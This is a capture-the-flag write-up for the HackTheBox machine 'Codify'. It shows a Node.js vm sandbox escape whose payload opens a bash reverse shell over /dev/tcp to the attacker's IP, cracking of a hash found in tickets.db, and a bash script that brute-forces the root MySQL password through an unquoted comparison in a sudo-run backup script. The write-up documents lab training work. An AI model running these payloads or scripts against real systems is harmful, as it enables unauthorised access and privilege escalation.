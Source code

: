 ## Writeup for Codify from HackTheBox

First an nmap scan was performed, using `nmap -sC -sV <IP>`, on the target machine which returned this output:

```bash
Nmap scan report for 10.10.11.239
Host is up (0.29s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The output scan revealed a domain name: codify.htb, which was added to /etc/hosts.

When visiting the website, the site seems to contain a code editor which allows for execution of NodeJS code inside a sandbox environment. In order to obtain a reverse shell from this code execution, first it must be seen which modules the user is allowed to import and use. For example, the "fs" module, which is used for reading files, was not allowed to be imported. 


![fs not an allowed module](images/image1.png)


Similarly, the module "child_process" was also not allowed to be imported. Hence, research was then done on Google to see which other modules can be used for code execution. Eventually an appropriate payload was found on this site: https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet.


Back to the code editor, it was found that the "vm" module was not prohibited, however, it can be exploited to achieve code execution. The final payload used to obtain a reverse shell was this:


```javascript
const vm = require('vm')

const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')(); process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"').toString()`);
```


![successfully obtained reverse shell](images/image2.png)


After starting a netcat listener on port 443 and running the above code, a reverse shell was obtained as the user "svc". Looking inside the /home directory, it can be seen that the machine also contains the user "joshua".


The next step was to check the website's source code found within `/var/www`, which may contain more information that can be used to escalate privileges horizontally to the "joshua" user. Upon visiting `/var/www`, a "contact" directory was found and inside that directory was the file "tickets.db".

When outputting the file contents of `/var/www/contact/tickets.db`, a hash associated with the user "joshua" was found. Using John The Ripper, the hash was later cracked and a plaintext password "spongebob1" was obtained.


![hash found in tickets.db](images/image3.png)


 This password may have been for "joshua" to access the database on the backend, however, since users may re-use the same passwords for different accounts, the next step was to check whether it was possible to ssh to the box as "joshua" using the same password.


Using the found credentials to ssh into the box was a success and the user.txt file can now be read.

Next was checking what commands the user "joshua" can run as sudo. This was done by executing `sudo -l`. It was found that "joshua" may execute the script "mysql-backup.sh" as the root user. 


To see whether the script has a vulnerability, the contents of the script was first outputted:


```bash
joshua@codify:/opt/scripts$ cat mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```


It was be seen that the script attempts to prompt the user to enter a password and check that the password matches the root user's mysql password, before backing up the contents of the mysql database. However, the password checking performed was unsafe because quotation marks were not placed around the variable "$DB_PASS".


After some research, it was clear why this was unsafe. This is because without quotation marks, the shell will interpret the contents of $DB_PASS as a pattern matching expression, rather than a string. Hence, when executing the mysql-backup.sh script and entering the wildcard symbol, "*", upon being prompted, the script then tells the user that the password was correct and proceeds to backup the mysql database.


This issue can then be exploited by using the wildcard symbol and brute forcing the root user's mysql password. This can be done by adding a character before the wildcard symbol and providing this as input to the script, such as "k*". If the first letter of the root user's password was "k", then the script outputs that the password was correct. Next, the second character of the password can be guessed by inputting the string "k\<char>*" (where \<char> is an arbitary alphanumeric character), and seeing if the script confirms the password as being correct. If so, then the second letter of the password was found. Upon repeating this process, the full password can be obtained.


Hence a bash script was created to obtain the root user's password:


```bash
password="";

enter_pass_output=$(echo "$password" | sudo $1)

while [[ "$enter_pass_output" != *"Password confirmed!"* ]]; do
	for letter in {a..z} {1..9}; do
    		output=$(echo "$password$letter*" | sudo $1);
    		if [[ "$output" == *"Password confirmed!"* ]]; then
			    password="$password$letter";
			    echo $password;
			    break;
    		fi
	done
		
	enter_pass_output=$(echo "$password" | sudo $1);
done

echo "Final password: $password";
```

Upon executing the script through the command:

`bash script.sh /opt/scripts/mysql-backup.sh 2> /dev/null`

The full password of the root user's mysql account was revealed to be "kljh12k3jhaskjh12kjh3".


When changing to the root user and passing in the obtained password, the user successfully escalates privileges to the root user and can now obtain the root.txt file.


Overall, this box differs greatly from other boxes as it required a good knowledge of scripting in order to solve it. I found this box quite helpful in testing my programming skills and taught me the importance of such a skill in the field of Cybersecurity.